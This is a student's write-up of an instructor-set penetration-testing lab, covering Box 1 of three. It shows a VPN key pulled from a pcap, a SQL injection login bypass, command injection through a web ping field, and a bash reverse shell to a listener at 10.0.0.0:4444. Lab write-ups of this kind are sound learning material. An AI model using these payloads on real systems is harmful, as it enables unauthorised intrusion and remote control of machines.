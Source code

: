 # Keys to the Kingdom
A in depth walkthrough of how I solved a fairly realistic exercise one of my instructors put to me. This exercise was loads of fun and kept me entertained for quite a while with all of its little rabbit holes and misdirects. There will be 3 parts to this writeup as there were three different boxes to root. This is the first.

### It begins...
This is how it started, with a post from an instructor of mine in our class' Teams channel. "Find the 'Keys' To the Kingdom", he said and then posted a link to a file on google drive along with 3 IP addresses.

![S](Images/TheBegining.png)
#### So we have a couple of clues. 
From just that introduction, I noticed a couple of things that could give me an idea on where to go with this.
1. Keys. I wonder what sort of keys hes talking about? 
It could be a VPN key hidden in that packet capture, but it could also be an SSH key, or knowing him, it could be a misdirection. 

2. Our second clue comes from 2 of those IP's they are one after another in sequence. So it stands to reason they are on the same subnet and can only be accessed via this hypothetical VPN. \

#### Well only one way to find out! Lets open that pcap in Wireshark.

![S](Images/LotsOfPackets.png)

There are a little over 4000 packets in this pcap file but most of them dont tell me much. Theyre all around 90 in length. Maybe hidden within here is something more substantial. So I sort by length and find a file thats a bit longer. 

![S](Images/ThatsBetter.png)

Thats much better! We found a full openVPN key. With a little research about openVPN keys I find that I can copy this text directly into a file with the extension .ovpn and connect to the range using the command ``sudo openvpn <filenamehere>.ovpn``

#### ***90s hacker voice*** Im in.
![S](Images/ImIn.png)

## Now, the real fun begins...

I start by enumerating all 3 of the obtained IP addresses using [@dievus'](https://github.com/dievus) fantastic [Threader3000](https://github.com/dievus/threader3000) tool. I truly love this little guy. It makes portscanning so much quicker and more automated by quickly telling you which ports are up and then constructing an nmap scan tailored to that specific target. It only deeply scans the ports that its initial scan previously found to be open, which significantly speeds up your wait time. It also automatically outputs your scans into 3 different file formats which you can reference later. I love Threader3000 and cant sing its praises enough. So go check it out for yourself!
Anyway's, back to port scanning starting with...
## Box 1
![S](Images/nmap1.png)

Going for the lowhanging fruit (and the best option here), I decide to go check out the website on `port 8080`. Im greeted with a basic admin login page with the url extension `index.php`. This lets gives me an idea that I may be able to preform an sql injection but Im still not sure.

![S](Images/phpAdminPage.png)

So, I fire up BurpSuite and check out whats happening when i hit the login button.
![S](Images/burping.png)
Ok there's probably something here. 
Lets send this to the repeater module in Burp and check out whats going on. `ctrl+R` is a quick shortcut for moving requests from the Proxy tab into the Repeater Tab. Here, we can manipulate our requests for testing the right sort of attack.
Im focusing on the bottom line of this request, as this is where our username and password data goes. I added a single character in the username field and got this response back.

![S](Images/burping2.png)

This looks like the HTML for the login page. But what if I put some SQL into that field?
Maybe like, a common administrator name like `admin` along with `'OR '1'='1` What would happen?

![S](Images/burping3.png)

#### It worked!!!
Then I just take that same text `admin' OR '1'='1` and plug it into the username field on the actual site and I should be taken to the administrative console..

![S](Images/adminConsole.png)

Awesome, now we can probably use this ping page to get a shell into the actual machine. So, lets figure out how to do that.
First i typed an IP `127.0.0.1` into the field and got a pretty generic response. 
Sure that it was pinging, I tried to see if I could piggyback on that ping command using the semicolon

So I pinned a Print Working Directory command to the end of that local host ping `127.0.0.1;pwd` and got something much better.

![S](Images/Localpwd.png)

From here it was just a matter of making this machine (target) call back to my (attacker) machine.
As always I set up a netcat listener on my (attacker) machine using the command `nc -lvnp 4444` and then I went over to [pentest monkey's](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) reverse shell cheatsheet where I got the bash reverse shell.

When appended to the end of the localhost ping, the final command looked like this: 
`127.0.0.1;bash -i >& /dev/tcp/10.0.0.0/4444 0>&1`

#### Voila
![S](Images/revShell1.png)

## Box 2
![S](Images/nmap2_1.png)
#### Box 2 pt.2
![S](Images/nmap2_2.png)
#### Box 3
![S](Images/nmap3.png)

While I initially chose to go at all of these boxes at once, organizing myself through diligent note taking, I eventually decided to hit these boxes one at a time to keep all of my thoughts organized. So, that is the way Ill be writing this out from this point forward. 

Starting with the first scan, I see that there is an open http port on 8080 (not the default). So I go and check that site out but there isnt much to look at.
